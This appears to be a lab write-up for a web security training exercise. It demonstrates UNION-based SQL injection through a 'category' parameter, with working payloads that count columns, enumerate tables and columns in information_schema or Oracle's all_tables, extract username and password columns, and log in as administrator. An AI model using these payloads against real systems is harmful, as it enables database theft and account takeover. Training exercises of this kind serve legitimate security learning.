





# Lab: Listing Database Contents (Non-Oracle SQL Injection)

## Vulnerability
The `category` parameter is vulnerable to SQL injection, allowing UNION queries to extract database data.

## Exploit(non-oracle databases)

### Step 1 — Column count
' ORDER BY 1--

' ORDER BY 2--

' ORDER BY 3-- (error)

Confirmed 2 columns.

### Step 2 — List tables
' UNION SELECT table_name, NULL FROM information_schema.tables--

Found: users_neaatz

### Step 3 — List columns
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_neaatz'--

Found:
- username_vnsmbm
- password_tesotx

### Step 4 — Extract data
' UNION SELECT username_vnsmbm, password_tesotx FROM users_neaatz--

Retrieved credentials for multiple users.

### Step 5 — Login
Used extracted credentials to log in as administrator.

## Exploit (Oracle)

### Step 1 — Column count
Same approach using ORDER BY.

### Step 2 — List tables
' UNION SELECT table_name, NULL FROM all_tables--

### Step 3 — List columns
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS'--

### Step 4 — Extract data
' UNION SELECT username, password FROM users--

---

## Result
Successfully accessed database contents and authenticated as administrator.

## Key Point
SQL injection can expose full database structure and sensitive user credentials.

## Proof

